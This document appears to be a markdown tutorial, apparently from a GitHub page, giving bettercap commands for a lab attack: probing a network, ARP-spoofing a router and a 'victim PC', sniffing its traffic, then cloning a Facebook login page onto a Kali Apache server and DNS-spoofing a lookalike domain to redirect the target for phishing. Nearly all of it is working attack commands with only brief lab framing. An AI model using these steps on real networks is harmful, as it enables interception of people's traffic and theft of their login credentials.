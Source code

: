 Scan network to connect targets
```sh
net.probe on
```

Show connections
```sh
net.show
```

Start full duplex to capture both the router and the victim PC
```sh
set arp.spoof.fullduplex true
```

Start an ARP spoof attack from bettercap using the information gathered
```sh
set arp.spoof.target <target-ip>
```
- You can see the target ip with the `net.show` command

Enable spoof
```sh
arp.spoof on
```
- Now we can test this by using the browser again on the target VM
- Shows various information like IP, MAC, URL visited, and the target computer name

Start sniffing
```sh
net.sniff on
```

**Redirect from web-page to another. Used in phising**

Access the kali default server page 
```sh
/var/www/html 
```
 
 Start kali server  
```sh
service apache2 start
```
- Use ifconfig to find your own IP which is where the server is located
- You need to copy the, for example facebook, webpage HTML saved as index.html (you can use tools that can help you do this)

Set DNS spoofing 
```sh
set dns.spoof.domains facebookk.com
```

Start DNS spoof
```sh
dns.spoof on
```
- Now we can try it using our windows VM. If it doesn't work try clearing browsing history

---
